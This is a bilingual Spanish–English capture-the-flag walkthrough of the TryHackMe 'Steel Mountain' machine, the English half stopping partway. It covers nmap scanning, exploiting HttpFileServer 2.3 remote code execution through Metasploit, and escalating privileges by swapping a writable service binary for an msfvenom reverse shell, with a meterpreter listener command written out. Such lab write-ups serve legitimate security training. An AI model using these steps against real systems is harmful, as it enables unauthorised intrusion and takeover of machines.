> **Hi, english below!**

Hola otra vez! Espero que todo esté yendo genial. Vamos a resolver en esta ocasión una máquina de TryHackMe llamada Steel Mountain la cual está incluida dentro del path de Offensive Pentesting. Así que vamos a ponernos manos a la obra.

Lo primero que haremos será descargar nuestro archivo de configuración de VPN dentro de TryHackMe, una vez descargado usaremos el comando ``` sudo openvpn $tuarchivo.ovpn ``` para conectarnos a la misma. Una vez hecho esto desplegaremos nuestra máquina víctima dentro de la room Steel Mountain y estaremos listos para pasar a la acción.





Como siempre, lo primero que haremos será lanzar una traza ICMP a la máquina víctima para verificar que la misma está disponible y en funcionamiento. Para esto usaremos el comando ``` ping ```.





Genial, podemos ver si nos fijamos en este output que tiene un TTL de 127, el cual nos indica que se trata de una máquina windows ya que está próximo a 128. Tanto en TryHackMe como en Hack The Box veremos que siempre el TTL será de 63 o de 127, en vez de ser de 64 o de 128, esto es debido a que en ambas plataformas contamos con un nodo intermediario el cual reduce el valor de este TTL en 1. Podemos verificar esto fácilmente con el comando ``` traceroute ```.





# Enumeración


Empezemos con la enumeración, lo primero como siempre será realizar un escaneo básico de puertos con el siguiente comando:

``` sudo nmap -p- --open 10.10.254.83 -Pn -n --min-rate 5000 -vvv -oN escaneo ```





De un primer vistazo podemos ver varios puertos abiertos, pero los que más nos llaman la atención son el 80 y el 8080 ya que hacen referencia a servicios web y esta podría ser nuestra primera toma de contacto. También podemos ver que hay un SMB y varios puertos más referentes a los entornos Windows. Antes de ir a nuestro navegador a echar un ojo lanzamos un escaneo más exhaustivo a los puertos abiertos en busca de las versiones e información adicional que nos puedan dar los scripts básicos de reconocimiento que nmap pone a nuestra disposición.





Podemos observar que en el puerto 80 encontramos un IIS de Microsoft, pero lo realmente interesante de este output es lo que podemos ver en el puerto 8080, algo llamado HttpFileServer httpd 2.3. Investigando un poco por internet descubrimos que hay un exploit público que apunta a este servicio y que nos permite la ejecución remota de código, algo que vale la pena intentar. 





Antes de esto nos daremos un paseo por la web en busca de la respuesta a la primera pregunta que nos hace TryHackMe.





Si accedemos al puerto 80 de la máquina podemos encontrar una images/imagen del que se indica que es el empleado del mes, pero no parece poner su nombre por ninguna parte. Si inspeccionamos el código fuente podemos conocer la ruta de la images/imagen, y resulta que el nombre de la misma es el nombre del empleado del mes, por lo que podemos contestar correctamente a la primera pregunta.








En cuanto a las siguientes respuestas, podemos contestar todas las de la siguiente Task menos la última a raíz de esta enumeración previa que hemos realizado. 





Volvamos a lo que vimos antes y empecemos con el proceso de explotación de esta máquina. Tenemos varias opciones en este caso ya que contamos con un módulo disponible en Metasploit para la explotación de esta vulnerabilidad concreta, la otra opción sería simplemente utilizar un exploit público. En este caso estaremos utilizando Metasploit ya que me parece una excelente herramienta, y bastante intuitiva una vez que te acostumbras a ella.


# Explotación


Para abrir nuestra consola de Metasploit utilizaremos el comando ``` msfconsole ```. Una vez abierta, tendremos que buscar por el nombre del servicio vulnerable.





Ahí lo tenemos, usaremos ``` use 0 ``` para posicionarnos en dicho exploit y tendremos que editar las opciones para que estas concuerden con nuestra situación concreta. Para abrir las opciones podemos usar ``` show options ``` o simplemente ``` options ```.





Para cambiar cada una de las opciones usaremos el comando ``` set $opciónacambiar ``` seguido de el valor que queramos darle.





Una vez editado esto sólo tendremos que proporcionarle el comando ``` run ``` y comenzará a explotar esta vulnerabilidad. Como dato importante recordad que en LHOST le tendréis que proporcionar vuestra dirreciión IP dentro de la VPN de TryHackMe para que funcione correctamente.








¡Bien! Estamos dentro de la máquina. Ahora simplemente con movernos hacia el directorio Desktop de nuestro usuario podremos acceder a la primera flag, la cual tendremos que proporcionar a TryHackMe para completar la segunda Task.





# Post-Explotación


Una vez dentro de la máquina tendremos que encontrar una forma de elevar nuestros privilegios. En esta ocasión y como nos está recomendando TryHackMe utilizaremos un script de powershell llamado PowerUp. Este script nos dará unas indicaciones para saber de forma rápida los caminos que podríamos tomar para convertirnos en el usuario administrador de la máquina. Para descargarlo en nuestra máquina local usaremos el siguiente comando:

``` wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1 ```





Con el script en nuestra máquina atacante tendremos que encontrar una forma de subirlo a la máquina víctima. En este caso, y al tener abierta una sesión de meterpreter gracias a Metasploit, simplemente tendremos que utilizar el comando ``` upload ``` seguido de nuestro archivo recién descargado.





Genial, script subido a la máquina víctima correctamente. Ahora tendremos que convertir nuestra sesión de meterpreter a una consola interactiva de powershell para poder ejecutar el archivo. Para lograr esto usaremos el comando ``` load powershell ```, una vez cargado podremos utilizar ``` powershell_shell ``` y de esta forma conseguiremos la shell deseada.





Ahora simplemente ejecutaremos el script y luego le pasaremos a nuestra consola de powershell el comando ``` Invoke-AllChecks ```. Si nos fijamos bien en el output podremos contestar correctamente a la siguiente pregunta de TryHackMe.








Si nos fijamos bien también podremos ver en el output del script que además de tener permisos para reiniciar el servicio tenemos permisos de escritura en el directorio del mismo. Si sumamos estas dos señales nos damos cuenta de que podríamos escribir comandos maliciosos en dicho directorio para después reiniciar el servicio y que se ejecuten nuestras órdenes. Para lograr esto usaremos msfvenom para generar una shell reversa con permisos privilegiados, sólo tendremos que subir el ejecutable legítimo por el que acabamos de crear.





Para ponernos en escucha en nuestra máquina atacante para recibir la shell usaremos el comando ``` msfconsole -qx 'use exploit/multi/handler;set lhost tun0;set lport 4443;set payload windows/meterpreter/reverse_tcp;run' ```








Una vez realizados estos pasos simplemente reiniciaremos el servicio y al ejecutar nuestro archivo malicioso recibiremos en nuestra máquina atacante una nueva conexión. Y no una conexión cualquiera.








Parece que en mi caso el listener en Metasploit no está funcionando correctamente, por lo que usaré netcat para ponerme en escucha por el puerto que indicamos en el payload de msfvenom.











¡Eso es! Recibimos la shell correctamente, y como podemos ver somos el usuario administrador de la máquina y somos capaces de leer la última flag para poder completar la máquina de TryHackMe, bueno, no completamente ya que también nos insta a realizar la máquina sin el uso de Metasploit, pero eso lo dejaremos para otro día. Espero que os hay agustado, nos vemos en la siguiente, un besito :)


---------------------------------------------------------------------------------------------------------------------------------------------------


Hello again! I hope everything is going great. Today, we are going to tackle a TryHackMe machine called Steel Mountain, which is included in the Offensive Pentesting path. So let's get to work.

The first thing we'll do is download our VPN configuration file from TryHackMe. Once downloaded, we'll use the command sudo openvpn $yourfile.ovpn to connect to it. After this, we'll deploy our victim machine within the Steel Mountain room and we'll be ready to go.


As always, the first thing we'll do is launch an ICMP trace to the victim machine to verify that it is available and functioning. For this, we'll use the ping command.


Great, we can see from this output that it has a TTL of 127, which indicates that it is a Windows machine since it is close to 128. Both on TryHackMe and Hack The Box, the TTL will always be 63 or 127 instead of 64 or 128. This is because there is an intermediary node on both platforms that reduces the TTL value by 1. We can easily verify this with the traceroute command.


# Enumeration


Let's start with enumeration. The first thing, as always, will be to perform a basic port scan with the following command:

``` sudo nmap -p- --open 10.10.254.83 -Pn -n --min-rate 5000 -vvv -oN escaneo ```


At first glance, we can see several open ports, but the ones that catch our attention the most are 80 and 8080, as they refer to web services and this could be our first point of contact. We can also see that there is an SMB and several more ports related to Windows environments. Before going to our browser to take a look, let's run a more exhaustive scan on the open ports to find versions and additional information that the basic recognition scripts from Nmap can provide us.


We can observe that port 80 hosts a Microsoft IIS, but what's really interesting in this output is what we see on port 8080, something called HttpFileServer httpd 2.3. After doing some research online, we discovered there is a public exploit targeting this service that allows remote code execution, which is worth a try.


Before that, let's take a look at the web to find the answer to the first question posed by TryHackMe.


If we access port 80 of the machine, we can find an image indicating the employee of the month, but the name doesn't seem to be mentioned anywhere. By inspecting the source code, we can find the image path, and it turns out that the name of the image is the name of the employee of the month, so we can correctly answer the first question.


Regarding the next answers, we can respond to all the questions in the following Task except the last one based on the previous enumeration.


Let's return to what we saw earlier and start with the process of exploiting this machine. We have several options in this case since there is a module available in Metasploit for exploiting this specific vulnerability. The other option would be to use a public exploit. In this case, we will be using Metasploit as it is an excellent tool and quite intuitive once you get used to it.


# Exploitation


To open our Metasploit console, we use the command msfconsole. Once opened, we need to search for the name of the vulnerable service.


There it is, we use use 0 to select this exploit and we'll need to edit the options to match our specific situation. To open the options, we can use show options or simply options.


To change each option, we use the command set $option_to_change followed by the value we want to assign.


